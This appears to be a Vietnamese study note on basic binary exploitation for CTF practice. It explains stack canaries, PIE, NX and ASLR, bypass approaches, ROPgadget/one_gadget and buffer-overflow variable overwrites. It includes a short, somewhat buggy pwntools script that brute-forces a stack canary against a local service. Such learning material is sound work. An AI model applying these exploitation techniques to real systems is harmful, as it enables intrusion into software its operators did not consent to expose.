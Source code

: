 > Mục đích: Tổng hợp các kĩ thuật pwn cơ bản

# Checksec

> checksec cho ta biết các bảo vệ nào của file được bật, khi nhìn vào checksec ta có thể đoán được các kĩ thuật khai thác nào có thể không sử dụng được điều này rất qua trọng giúp chúng ta tránh mất thời gian và công sức

### Canary

- Hiểu đơn giản là canary tạo một giá trị hex, đẩy vào cuối stack (thường là trên saved rbp).
- Chức năng của nó là chống bof đến saved rip
  Để bypass được canary: có 2 cách chính

##### leak canary

ta có thể sử dụng FMT để leak giá trị canary. (printf hoặc puts)
printf nếu là fmt sẽ có trong file
ở đây ta có thể sử dụng puts để leak canary

##### Brute force Canary

Do em chưa thử cách này nên cũng chỉ dừng lại ở mức cách brute force

- Hoạt động: ta sẽ OW đến giá trị canary và ghi đè canary ta BF, nếu đúng chương trình thực hiện tiếp, nếu không chương trình sẽ lặp lại
- Nhược điểm: thường khá mất nhiều thời gian.

<details> <summary> Example 1 </summary>

```python
from pwn import *

def connect():
    r = remote("localhost", 8788)

def get_bf(base):
    canary = ""
    guess = 0x0
    base += canary

    while len(canary) < 8:
        while guess != 0xff:
            r = connect()

            r.recvuntil("Username: ")
            r.send(base + chr(guess))

            if "SOME OUTPUT" in r.clean():
                print "Guessed correct byte:", format(guess, '02x')
                canary += chr(guess)
                base += chr(guess)
                guess = 0x0
                r.close()
                break
            else:
                guess += 1
                r.close()

    print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
    return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```

</details>

# PIE
Được hiểu đơn giản là địa chỉ binary động, để có thể bypass, ta có thể leak một địa chỉ nào đó là địa chỉ binary, từ đó tính ngược về địa chỉ base của bin

[link về bypass PIE, Canary khá chi tiết](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/bypassing-canary-and-pie)
  
 # NX
 Tạm hiểu là chống thực thi trong stack, nghĩa là đánh dấu các vùng không thể thực thi, việc này nhằm tránh việc đưa shellcode vào stack thực thi.
 Khi NX tắt, ta sẽ ưu tiên việc đưa shellcode vào stack
  
# ASLR
  Tạm hiểu là nó sẽ làm ngẫu nhiên hoá các thư viện (Libc) nhằm chống việc leak địa chỉ got plt, ngăn chặn ret@libc
 
 > Tóm lại: Nếu canary bật mà không thể leak được canary thì nó có thể là FMT IOF
  Nếu NX tắt (thông thường là bật): ta sẽ ret2shellcode
  nếu PIE, ASLR bật: ta cần phải leak địa chỉ để tính toán
___ 
# Các công cụ khai thác
* ROPgadget: ROP (Return Oriented Programming), sử dụng các gadget đã có trong chương trình để thay đổi các thanh ghi hoặc các biến trên stack nhằm kiểm soát, chuyển hướng chương trình. Các thanh ghi thường được sử dụng là rdi, rsi, rdx, rcx, r8, r9. 
  * ROPgadget thường được sử dụng để tìm địa chỉ của ret, các thanh ghi mà còn có thể tìm được địa chỉ của một số chuỗi ```ROPgadget --binary tênfile --string 'chuỗi cần tìm'
  * việc tìm chuỗi là cần thiết, hoặc là khi ta không thể dùng gets để ghi vào vùng nhớ nào đó (không có file libc)
* one_gadget: là một số gadget tồn tại trong libc, one_gadget sẽ tìm luôn những execve("/bin/sh", NULL, NULL), và điều kiện là một số thanh ghi cần NULL (có file libc)
> Lưu ý: ROPgadget thường được sử dụng để leak libc, sau đó có thể dùng one_gadget để tạo execve()
  đồng thời k nên ưu tiên leak libc, khi đã có hàm system bên trong file. có một số bài người ra đề có thể tự tạo file libc, lúc ta leak libc thì ra một file libc khác server, việc tính toán sau đó rất mất thời và cay cú.
___
  # Các kĩ thuật BOF
  ### Tràn biến
  nghĩa là ta sẽ thay đổi dữ liệu mà biến đó lưu trữ, việc cần làm của chúng ta là kiểm tra địa chỉ của biến đó, ow đến địa chỉ đó và truyền vào giá trị mà mình mong muốn
  tuy vậy, các bài tràn biến thường đi chung với những phép toán biến đổi, hoặc là giá trị cần thay đổi là số âm, số thập phân
  Để biến đổi số thập phân sang hex em có sưu tầm được
  ![image](https://user-images.githubusercontent.com/111769169/225925905-04d8cf4d-fb31-4131-8591-bd849d4ffd52.png)

 
